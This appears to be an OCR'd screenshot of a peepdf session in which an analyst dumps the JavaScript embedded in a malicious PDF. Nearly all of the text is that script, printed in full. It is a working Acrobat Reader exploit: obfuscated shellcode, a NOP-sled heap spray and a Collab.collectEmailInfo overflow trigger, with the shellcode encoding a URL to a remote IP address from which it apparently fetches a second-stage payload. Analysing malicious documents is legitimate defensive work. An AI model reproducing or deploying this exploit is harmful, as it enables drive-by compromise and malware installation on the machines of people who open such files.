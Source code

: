 ```
	gwKPaJSHReD0hTAD51qao1s = unescape("%u4343%u4343%u0feb%u335b%u66c9%u80b9%u8001%uef33%ue243%uebfa%ue805%uffec%uffff%u8b7f%udf4e%uefef%u64ef%ue3af%u9f64%u42f3%u9f64%u6ee7%uef03%uefeb%u64ef%ub903%u6187%ue1a1%u0703%uef11%uefef%uaa66%ub9eb%u7787%u6511%u07e1%uef1f%uefef%uaa66%ub9e7%uca87%u105f%u072d%uef0d%uefef%uaa66%ub9e3%u0087%u0f21%u078f%uef3b%uefef%uaa66%ub9ff%u2e87%u0a96%u0757%uef29%uefef%uaa66%uaffb%ud76f%u9a2c%u6615%uf7aa%ue806%uefee%ub1ef%u9a66%u64cb%uebaa%uee85%u64b6%uf7ba%u07b9%uef64%uefef%u87bf%uf5d9%u9fc0%u7807%uefef%u66ef%uf3aa%u2a64%u2f6c%u66bf%ucfaa%u1087%uefef%ubfef%uaa64%u85fb%ub6ed%uba64%u07f7%uef8e%uefef%uaaec%u28cf%ub3ef%uc191%u288a%uebaf%u8a97%uefef%u9a10%u64cf%ue3aa%uee85%u64b6%uf7ba%uaf07%uefef%u85ef%ub7e8%uaaec%udccb%ubc34%u10bc%ucf9a%ubcbf%uaa64%u85f3%ub6ea%uba64%u07f7%uefcc%uefef%uef85%u9a10%u64cf%ue7aa%ued85%u64b6%uf7ba%uff07%uefef%u85ef%u6410%uffaa%uee85%u64b6%uf7ba%uef07%uefef%uaeef%ubdb4%u0eec%u0eec%u0eec%u0eec%u036c%ub5eb%u64bc%u0d35%ubd18%u0f10%u64ba%u6403%ue792%ub264%ub9e3%u9c64%u64d3%uf19b%uec97%ub91c%u9964%ueccf%udc1c%ua626%u42ae%u2cec%udcb9%ue019%uff51%u1dd5%ue79b%u212e%uece2%uaf1d%u1e04%u11d4%u9ab1%ub50a%u0464%ub564%ueccb%u8932%ue364%u64a4%uf3b5%u32ec%ueb64%uec64%ub12a%u2db2%uefe7%u1b07%u1011%uba10%ua3bd%ua0a2%uefa1%u7468%u7074%u2F3A%u372F%u2E38%u3031%u2E39%u3033%u352E%u632F%u756F%u746E%u302F%u3530%u4441%u3635%u2F46%u6F6C%u6461%u702E%u7068%u703F%u6664%u613D%u3836%u6534%u6563%u6565%u3637%u6366%u3235%u3732%u3337%u3832%u6136%u3938%u6235%u3863%u3334%u0036");

	tuVglXABgYUAQFEYVPi3lf = unescape("%u9090%u9090"); nDsGdY1TdZUDCCpNeYRdk28BeZ5R = 20 + gwKPaJSHReD0hTAD51qao1s.length
	while (tuVglXABgYUAQFEYVPi3lf.length < nDsGdY1TdZUDCCpNeYRdk28BeZ5R) tuVglXABgYUAQFEYVPi3lf += tuVglXABgYUAQFEYVPi3lf;
	vmRV3x9BCtZs = tuVglXABgYUAQFEYVPi3lf.substring(0, nDsGdY1TdZUDCCpNeYRdk28BeZ5R);
	dVghsR4KOJoE6WzWkTW0vz = tuVglXABgYUAQFEYVPi3lf.substring(0, tuVglXABgYUAQFEYVPi3lf.length-nDsGdY1TdZUDCCpNeYRdk28BeZ5R);
	while(dVghsR4KOJoE6WzWkTW0vz.length + nDsGdY1TdZUDCCpNeYRdk28BeZ5R < 0x40000) dVghsR4KOJoE6WzWkTW0vz = dVghsR4KOJoE6WzWkTW0vz + dVghsR4KOJoE6WzWkTW0vz + vmRV3x9BCtZs;

	dddA9SvmIp7bFVTvbRcRoFQ = new Array();

	for ( i = 0; i < 2020; i++ ) dddA9SvmIp7bFVTvbRcRoFQ[i] = dVghsR4KOJoE6WzWkTW0vz + gwKPaJSHReD0hTAD51qao1s;

	function rHjX2qS2YpWWuvNjX9JfKZ3F(qlrSKFKRQUuUXlV0ES9I6oz4pM, oq7g9J0RSV3FcMgr9DLvvDY8ee)
	{
		var lTZGviUaML2vE40mHbYk = "";

		while (--qlrSKFKRQUuUXlV0ES9I6oz4pM >= 0) lTZGviUaML2vE40mHbYk += oq7g9J0RSV3FcMgr9DLvvDY8ee;
		return lTZGviUaML2vE40mHbYk;
	}

	Collab.collectEmailInfo({msg:rHjX2qS2YpWWuvNjX9JfKZ3F(4096, unescape("%u0909%u0909"))});
}


endstream

PPDF> object 13 > jsdump.js # dump to file
PPDF> 
```
